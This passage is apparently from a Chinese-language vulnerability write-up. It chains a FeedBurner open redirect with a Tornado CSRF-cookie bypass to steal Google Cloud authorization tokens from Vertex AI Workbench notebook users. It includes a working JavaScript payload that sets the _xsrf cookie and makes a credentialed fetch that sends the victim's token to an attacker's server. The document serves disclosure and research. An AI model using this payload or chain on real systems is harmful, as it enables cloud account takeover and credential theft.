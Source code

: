 现在，访问https://feeds.feedburner.com/{CUSTOM}/{ID}将重定向到您的域。是的，开放重定向未开启*.google.com。最初，Google
曾在 上托管 RSS 代理https://feedburner.google.com，但现在他们更改了域名。然而，幸运的是，您仍然可以通过简单地构造 URL
来使用新创建的 RSS
源https://feedburner.google.com：https://feedproxy.google.com/{CUSTOM}/{ID}

由于我们有一个开放的重定向，让我们尝试再次执行相同的攻击。访问https://{INSTANCE-ID}-dot-us-
central1.notebooks.googleusercontent.com/aipn/v2/proxy/feedproxy.google.com/{CUSTOM}/{ID}还是会失败，因为他们实施了CSRF保护。

### 绕过CSRF保护：

幸运的是，Jupyter 笔记本托管在 Tornado 服务器上。在之前的研究中，@s1r1us提到了一种绕过 Tornado 服务器中的 CSRF
保护的技术。Tornado 服务器通过将 GET 参数/POST 主体中的 CSRF 令牌与 cookie 中的 CSRF 令牌进行比较来验证 CSRF
令牌。如果两者都匹配，则通过。否则，就失败了。由于子域可以为父域设置 cookie，因此在任何子域中执行 javascript 将允许我们为 cookie
设置任意 CSRF 令牌，然后绕过 CSRF 保护。

CSRF 绕过的先决条件是在同站点上下文中执行 javascript。在我们的例子中，应用程序托管在https://{VICTIM-INSTANCE-
ID}-dot-us-central1.notebooks.googleusercontent.com.
由于googleusercontent.com它是一个沙盒域，主要用于托管用户控制的内容，因此获取 JavaScript 执行非常简单。

为了获得 JavaScript 执行，攻击者必须在工作台中分离他的用户管理笔记本。在那里，他将在子域中获得一个 Jupyter 笔记本
googleusercontent.com。

Jupyter Notebook 的索引页面位于 下/opt/conda/share/jupyter/lab/static。现在他所要做的就是编辑 HTML
页面并在googleusercontent.com. 由于我们已经成功获得了 javascript 执行，因此我们现在可以设置任意 CSRF
令牌并绕过保护。

### 把它们放在一起：

  * 攻击者获得开放重定向feedburner.google.com

  * 然后，他创建自己的用户管理笔记本，并使用以下内容更改其索引页。

  *   *   *   *   *   *   *   *   *   * 

    
    
    <!DOCTYPE html><html lang="en"><body>    <script>        var base_domain = document.domain.substr(document.domain.indexOf('.'));      document.cookie='_xsrf=1;Domain='+base_domain;fetch("https://{VICTIM-INSTANCE-ID}-dot-us-central1.notebooks.googleusercontent.com/aipn/v2/proxy/feedproxy.google.com/{CUSTOM}/{ID}?_xsrf=1",{credentials:"include",mode:"no-cors"})</script></body></html>

当受害者访问攻击者的笔记本实例时，上述代码将被执行。

  * document.cookie='_xsrf=1;Domain='+base_domain;将受害者 cookie 中的 CSRF 令牌设置为1

  * fetch("https://{VICTIM-INSTANCE-ID}-dot-us-central1.notebooks.googleusercontent.com/aipn/v2/proxy/feedproxy.google.com/{CUSTOM}/{ID}?_xsrf=1",{credentials:"include",mode:"no-cors"})获取包含凭证的受害者实例。

  * 由于 CSRF 令牌设置为1，因此它与 cookie 中的令牌匹配并绕过 CSRF 保护。

  * 现在，受害者的实例服务器将尝试feedproxy.google.com/{CUSTOM}/{ID}使用受害者的授权标头进行获取。

  * feedproxy.google.com/{CUSTOM}/{ID}将重定向到攻击者的服务器，攻击者将在其服务器日志中获取受害者的授权令牌。

  * 由于授权令牌具有云平台权限，因此攻击者可以完全访问受害者的所有 GCP 项目。

  

  